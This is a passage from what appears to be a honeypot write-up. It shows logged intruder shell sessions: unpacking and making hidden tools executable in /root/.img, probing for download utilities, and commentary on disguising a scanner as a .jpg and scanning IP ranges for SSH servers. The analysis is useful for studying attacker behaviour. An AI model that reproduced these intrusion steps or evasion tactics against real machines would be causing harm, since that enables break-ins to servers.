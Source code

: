     .img/pico
    .img/m.help
    .img/inst
    .img/bash
    .img/autorun

    server:~# cd .img

    server:/root/.img# chmod +x *

    server:/root/.img# ./start +s
      ___
     {o,o}
     |)__)
     -"-"-
    O RLY? cd
      ___
     {o,o}
     |)__)
     -"-"-
    O RLY? cd ..
      ___
     {o,o}
     |)__)
     -"-"-
    O RLY?

## Second example

Another one (I've removed the fingerprinting from now on). Here, `ftp`, `apt-get` and `yum` are tried before settling with `wget`. Another interesting thing to see here is that the tool is actually stored in what "looks" like an image file: `scanmorf.jpg`. Changing the extension is a tactic often used to upload files to web servers who only perform some basic filename checks. In this case, `root-arhive.do.am` might be an innocent, hacked website. The `pscan` tool used here will return often and is used to scan IP blocks for open SSH servers.

    server:~# ftp zorro89.trei.ro
    bash: ftp: command not found

    server:~# apt-get
    E: Could not open lock file /var/lib/apt/lists/lock - open (13: Permission denied)
    E: Unable to lock the list directory

    server:~# yum
    bash: yum: command not found

    server:~# wget
    wget: missing URL
    Usage: wget [OPTION]... [URL]...

    Try `wget --help' for more options.
